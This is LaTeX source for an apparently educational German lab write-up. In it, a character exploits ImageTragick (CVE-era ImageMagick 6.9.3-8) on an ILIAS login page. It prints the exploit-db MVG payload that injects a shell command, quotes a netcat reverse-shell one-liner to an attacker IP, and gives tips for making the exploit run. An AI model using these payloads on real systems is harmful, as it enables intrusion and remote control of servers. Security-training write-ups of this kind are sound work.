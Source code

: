 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    Komplett vertieft will Tim sich direkt mit den Credentials einloggen.
    Als er die Login-Seite kurz überfliegt, fallen ihm die Wort \textit{using ImageMagic(v6.9.3-8)} direkt auf.
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/loginPageHinweisImageMagick}
        \caption{Login Page ILIAS zeigt Hinweis auf eingebundene ImageMagick Version}
        \label{fig:loginPageHinweis}
    \end{figure}

    \noindent
    Er hatte vor kurzem etwas über ImageTragick gelesen.
    Und wie so oft, bietet \href{https://www.exploit-db.com/exploits/39767}{\textbf{exploit-db}} direkt die richtigen Informationen.

    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploit}]
        exploit.mvg
        -=-=-=-=-=-=-=-=-
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|ls "-la)'
        pop graphic-context
    \end{lstlisting}~\parencite{imagemagickExploit}
    \vspace{0.3cm}
    \\
    Dieser Exploit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
    Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
    Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
    Durch Ausprobieren musste die Formatierung des Exploits zudem leicht abgeändert werden, da die Reverse Shell sonst nach wenigen Sekunden abbrach.
    Dass der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
    Beim Erstellen des Exploits gilt es zu beachten, dass es sich bei dem Zielserver um einen Linux System handelt, welches nur unix Linebreaks versteht.
    Jedes in Windows geöffnete oder erstellt Datei muss demnach vorher umgewandelt werden, da der Exploit sonst fehlschlagen wird.
    Um das zu erreichen, helfen Tools wie Notepad++ oder das Kommandozeilenprogramm dos2unix:
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] Datei in Notepad++ öffnen --> Menüpunkt \textit{Bearbeiten} auswählen --> \textit{EOL-Konvertierung} wählen --> \textit{Unix(LF)}.
        \item[2.] Oder \textit{dos2unix filename.txt} in die Kommandozeile eingeben.
        Es gilt zu Beachten, dass nicht jedes System dos2unix unterstützt.
    \end{enumerate}
\end{document}
